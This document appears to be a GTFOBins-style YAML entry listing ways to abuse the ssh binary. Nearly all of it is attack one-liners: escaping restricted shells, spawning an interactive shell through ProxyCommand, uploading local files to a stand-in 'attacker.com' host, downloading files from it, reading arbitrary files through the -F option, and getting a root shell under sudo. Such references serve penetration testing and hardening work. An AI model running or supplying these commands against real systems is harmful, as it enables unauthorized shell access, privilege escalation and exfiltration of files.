 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo-enabled:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
---
```

